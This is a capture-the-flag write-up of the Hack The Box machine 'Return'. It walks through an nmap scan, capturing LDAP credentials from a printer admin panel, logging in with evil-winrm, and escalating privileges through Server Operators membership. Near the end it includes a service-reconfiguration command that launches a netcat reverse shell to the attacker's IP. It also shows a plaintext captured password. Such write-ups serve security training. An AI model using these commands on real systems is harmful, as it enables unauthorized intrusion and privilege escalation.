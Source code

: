 # Return

### Challenge: FullPWN

### Tools: Nmap, FTP, SSH, Linpeas, Python

THe nmap scan shows alot of information but most notable are HTTP and LDAP. Running DIRB did not give much and scanning for vulnerabilities did not show anything for any of the ports either.

```console
└──╼ [★]$ sudo nmap -sC -A -O 10.129.95.241
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-12 20:18 BST
Nmap scan report for 10.129.95.241
Host is up (0.0046s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-08-12 19:37:18Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=8/12%OT=53%CT=1%CU=34314%PV=Y%DS=2%DC=T%G=Y%TM=62F6A7A
OS:6%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10C%TI=I%CI=I%II=I%SS=S%TS=
OS:U)OPS(O1=M539NW8NNS%O2=M539NW8NNS%O3=M539NW8%O4=M539NW8NNS%O5=M539NW8NNS
OS:%O6=M539NNS)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%
OS:DF=Y%T=80%W=FFFF%O=M539NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=
OS:0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S
OS:=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=
OS:Z)

Network Distance: 2 hops
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-08-12T19:37:33
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: 18m36s

TRACEROUTE (using port 21/tcp)
HOP RTT     ADDRESS
1   5.45 ms 10.10.14.1
2   4.93 ms 10.129.95.241

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.06 seconds
```

By navigating to the webpage and settings we can see our way in. All we gotta do is change the IP and set up a listner on our end.

![image](https://user-images.githubusercontent.com/105310322/184442861-f83d4bd0-3018-48ad-b55d-00fe9a9ce10b.png)

Once we connect we can see that it popped out what looks like a password so lets see where we can use it.

```console
└──╼ [★]$ sudo nc -lvnp 389
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::389
Ncat: Listening on 0.0.0.0:389
Ncat: Connection from 10.129.95.241.
Ncat: Connection from 10.129.95.241:54957.
0*`%return\svc-printer�
                       1edFg43012!!
```
Using evil-winrm works to let us login as the service account and grab our first flag.

```cnosole
└──╼ [★]$ evil-winrm -i 10.129.95.241 -u svc-printer
Enter Password: 

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-printer\Documents> 
```
```console
*Evil-WinRM* PS C:\Users\svc-printer> cat Desktop/user.txt
572404b45e49f57e4014851b47458ab4
```
I struggled for a bit on privilege escalating here until I got some help with the group permission *Server Operators* With this membership we can get our reverse shell.

```console
*Evil-WinRM* PS C:\Users\svc-printer\Documents> net user svc-printer
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 1:15:13 AM
Password expires             Never
Password changeable          5/27/2021 1:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   8/12/2022 2:17:55 PM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.
```
Set up your listener and then input the following commands on the victim. (nc.exe was not installed by default on pwnbox and sudo apt install windows-binaries was not working for me so I manually downloaded it)

```console
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload /home/htb-0xrogue/Downloads/nc.exe
Info: Uploading /home/htb-0xrogue/Downloads/nc.exe to C:\Users\svc-printer\Documents\nc.exe

                                                             
Data: 79188 bytes of 79188 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.93 1234"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start vss
```
This shell is very unstable and only lasts about 60 sec but it is just enough time to read the root flag!

```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
8e5dd6807afea34697b12d6c823e6482
```

GG
